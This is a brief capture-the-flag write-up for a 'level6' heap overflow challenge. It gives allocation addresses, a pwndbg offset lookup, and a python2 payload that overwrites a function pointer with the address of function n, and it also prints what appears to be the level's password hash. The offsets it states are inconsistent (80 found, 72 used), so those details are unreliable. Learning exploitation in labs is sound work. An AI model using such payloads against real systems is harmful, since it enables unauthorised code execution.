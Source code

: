 level6:d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

malloc(64) =  argv[1] -> `0x0804a008`
malloc(4) = function called at the end -> `0x0804a050`

We must overwrite malloc(4) = `0x0804a050` with value `0x08048468` by the address of the function n = `0x08048454`

```
pwndbg> cyclic -l uaaa
Finding cyclic pattern of 4 bytes: b'uaaa' (hex: 0x75616161)
Found at offset 80
```

`$(python2 -c 'print "A" * 72 + "\x54\x84\x04\x08"')`